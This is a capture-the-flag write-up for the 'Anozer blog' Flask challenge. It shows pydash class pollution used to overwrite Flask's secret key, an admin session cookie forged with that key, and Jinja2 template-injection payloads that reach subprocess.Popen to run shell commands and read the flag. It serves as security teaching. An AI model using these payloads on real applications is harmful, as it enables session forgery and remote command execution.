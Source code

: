 # Anozer blog

![head](./head.png)

## Website overview

The website is a simple blog, where you can login/logout, register and create articles.

By looking at the source code of the app, we can see an interesting line.

```py
@app.route("/articles/<name>")
def render_page(name):
    article_content = articles[name]
    if article_content == None:
        pass
    if 'user' in session and users[session['user']['username']]['seeTemplate'] != False:
        article_content = render_template_string(article_content)
    return render_template('article.html', article={'name':name, 'content':article_content})
```

This code says that if we have the attribute 
```py
users[session['user']['username']]['seeTemplate']
```
then we can render the strings, which leads to a SSTI (Server Side Template Injeection).

Unfortunately, the default value for seeTemplate is False for a new user.
```py
def create(self, username, password):
    if username in self.users:
        return 0
    self.users[username]= {'password': hashlib.sha256(password.encode()).hexdigest(), 'restricted': True, 'seeTemplate': False}
    return 1
```
And only the admin user has it enabled.

```py
def __init__(self):
    self.users['admin'] = {'password': hashlib.sha256("hehe".encode()).hexdigest(), 'restricted': False, 'seeTemplate':True }
    # different password for remote app
```

We can turn on seeTemplate, but once again, se are stuck, cause it's only if the user is not restricted (so the admin).

```py
def seeTemplate(self, username, value):
    if username in self.users and self.users[username].restricted == False:
        self.users[username].seeTemplate = value
```

To exploit the app, let's look into what appens when we create a new article.

```py
def set(self, article_name, article_content):
    pydash.set_(self, article_name, article_content)
    return True
```

Here, pydash is used to add an attribute to the class, so if we do 

```py
article = Article() # the article class
article.set("hello", "hi")

# article.hello = hi
```

With this, we can do prototype pollution.

Let's exploit it to change the secret flask token.

It was hard to find the payload because the flask token was in another file. But with

```py
__class__.__init__.__globals__.__loader__.__init__.__globals__.sys.modules.__main__.app.secret_key
```
We can set the token to `hehe` for example.

Then, we only have to put the same payload in local, set a password that we want for admin, and login with admin, so that we can retreive the signed cookie with the key we choosed (here it's "hehe").

This gives the cookie 
```
eyJ1c2VyIjp7InNlZVRlbXBsYXRlIjp0cnVlLCJ1c2VybmFtZSI6ImFkbWluIn19.ZFeZFA.-1IXSyYKGrAzpV1ejauts_IBgXI
```

Now that we have the cookie, we only have to set the cookie for the remote server and refresh the page. We can see that we are now authentified as admin.

Now it's just a basic SSTI. By creating articles with a random name and 
```py
{{"".__class__.__mro__[1].__subclasses__()}}
```
we can see all modules.

!["modules"](./liste_process.png)

Then we need to find the index of subprocess.Popen, after some research, it appears to be 352

```py
{{"".__class__.__mro__[1].__subclasses__()[352]}}
```

![subprocess](./popen.png)

Then we just have to do a ls

```py
{{"".__class__.__mro__[1].__subclasses__()[352]("ls", shell=True, stdout=-1).communicate()}}
```

![ls](./ls.png)

We can see that the flag is just there. We only need to cat it.

```py
{{"".__class__.__mro__[1].__subclasses__()[352]("cat flag.txt", shell=True, stdout=-1).communicate()}}
```

![flag](./flag.png)

And here we got the flag PWNME{de3P_pOL1uTi0n_cAn_B3_D3s7rUctIv3}.

Thanks for the challenge !!
